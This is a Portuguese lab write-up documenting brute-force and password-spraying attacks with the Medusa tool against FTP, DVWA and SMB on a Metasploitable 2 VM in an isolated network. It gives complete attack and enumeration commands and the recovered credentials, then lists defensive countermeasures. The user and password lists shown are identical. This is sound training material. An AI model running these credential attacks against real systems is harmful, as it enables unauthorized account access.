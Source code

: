 <h1>Projeto Medusa — Demonstração de Ataques por Exaustão de Credenciais (Kali + Metasploitable)</h1>

<p><strong>Disclaimer:</strong> Todas as simulações ocorreram em laboratório 100% isolado, com máquinas virtuais gerenciadas exclusivamente por mim.</p>
<hr/>

<section>
  <h2>Visão Geral</h2>
  <p><strong>Meta:</strong> Explorar e registrar técnicas de <em>brute force</em> e <em>password spraying</em> com a ferramenta **Medusa**, em um cenário controlado: Kali Linux atuando como atacante e Metasploitable 2 como vítima, ambos rodando no VirtualBox com interface de rede em modo **host-only** (sem acesso externo).</p>
  <p><strong>Alvos analisados:</strong> **FTP**, **aplicação web DVWA** e **protocolo SMB**.</p>
</section>
<hr/>
<section>
  <h2>Infraestrutura do Lab</h2>
  <ul>
    <li>Hypervisor: VirtualBox — interface de rede **Host-only** (rede privada virtual 192.168.56.0/24).</li>
    <li>Atacante: Kali Linux — IP exemplo: <code>192.168.56.102</code>.</li>
    <li>Vítima: Metasploitable 2 — IP exemplo: <code>192.168.56.101</code>.</li>
    <li>Confirmação de endereçamento:
      <pre><code>ip addr show
# ou
hostname -I</code></pre>
    </li>
  </ul>
</section>
<hr/>
<section>
  <h2>Dicionários Utilizados</h2>
  <a href="static/users.txt"><h3>Lista de Usuários (users.txt)</h3></a>
  <pre><code>123456
password
qwerty
msfadmin</code></pre>

<a href="static/pass.txt"><h3>Lista de Senhas (pass.txt)</h3></a>

  <pre><code>123456
password
qwerty
msfadmin</code></pre>
</section>
<hr/>
<section>
  <h2>Sequência de Comandos Aplicados</h2>

  <h3>1) Ataque ao Serviço FTP — Exaustão Completa</h3>
  <p>Payload disparado:</p>
  <pre><code>medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/pass.txt -M ftp -t 4 -v 4</code></pre>
  <p>Confirmação do acesso:</p>
  <pre><code>> ftp 192.168.56.101
# ou
> lftp -u credencial_encontrada 192.168.56.101</code></pre>

  <h3>2) DVWA — Invasão via Formulário Web</h3>
  <p>Adapte <code>PAGE</code>, <code>FORM</code> e <code>FAIL</code> ao HTML real da página de login.</p>
  <pre><code>medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/pass.txt -M http \
  -m PAGE:/dvwa/login.php \
  -m "FORM:username=^USER^&password=^PASS^&user_token=^CSRF^&Login=Submit" \
  -m "FAIL:Username and/or password incorrect" -t 6 -v 5</code></pre>
  <p>Validação prática: Navegue até <code>http://192.168.56.101/dvwa/login.php</code> e insira as credenciais reveladas.</p>

  <h3>3) SMB — Técnica de Password Spraying</h3>
  <p>Execução (arquivo de senhas curtas para spraying):</p>
  <pre><code>medusa -h 192.168.56.101 -U wordlists/users.txt -P wordlists/spray.txt -M smbnt -t 2 -T 50 -v 4</code></pre>
  <p>Verificação de compartilhamentos:</p>
  <pre><code>smbclient -L //192.168.56.101 -U "dominio\\usuario%senha"
# ou
smbclient //192.168.56.101/tmp -U usuario%senha</code></pre>

  <h3>Enumeração Prévia de SMB</h3>
  <pre><code>enum4linux-ng -A 192.168.56.101
# ou rpcclient -U "" -N 192.168.56.101</code></pre>
</section>
<hr/>
<section>
  <h2>Evidências Coletadas</h2>
  <ul>
    <li><strong>FTP:</strong> Par <code>msfadmin:msfadmin</code> autenticado com sucesso via <code>lftp</code>.</li>
    <li><strong>DVWA:</strong> Medusa detectou credencial ao identificar ausência da mensagem de erro; acesso confirmado no browser.</li>
    <li><strong>SMB:</strong> Spraying revelou senha reutilizada; conexão estabelecida com <code>smbclient</code>.</li>
  </ul>

  <ul>
    <li><a href="static/enum4linux_log.txt">Relatório completo do Enum4Linux-ng</a></li>
    <li><img src="static/img/smb.png" alt="Tela do Medusa atacando SMB com sucesso"></li>
    <li><img src="static/img/form.png" alt="Medusa explorando formulário DVWA"></li>
  </ul>
</section>
<hr/>
<section>
  <h2>Contramedidas Recomendadas</h2>
  <ul>
    <li><strong>Senhas robustas:</strong> Mínimo 12 caracteres, entropia alta, bloqueio de dicionários via <em>password blacklist</em>.</li>
    <li><strong>Controle de tentativas:</strong> Account lockout após 5 falhas; rate-limit por IP (ex: 1 tentativa/10s).</li>
    <li><strong>2FA/MFA obrigatório:</strong> Em todos os serviços expostos (TOTP, WebAuthn, push).</li>
    <li><strong>Descontinuar protocolos legados:</strong> Substituir FTP por SFTP/SCP ou FTPS (TLS).</li>
    <li><strong>SMB seguro:</strong> Desativar SMBv1, forçar NTLMv2/Kerberos, aplicar LAPS e restrições de firewall.</li>
    <li><strong>Monitoramento ativo:</strong> Enviar logs para ELK/Splunk, alertas em tempo real, integração com <code>fail2ban</code> ou WAF.</li>
    <li><strong>Arquitetura de defesa em profundidade:</strong> Microsegmentação, zero-trust, DMZ interna e auditoria periódica.</li>
  </ul>
</section>
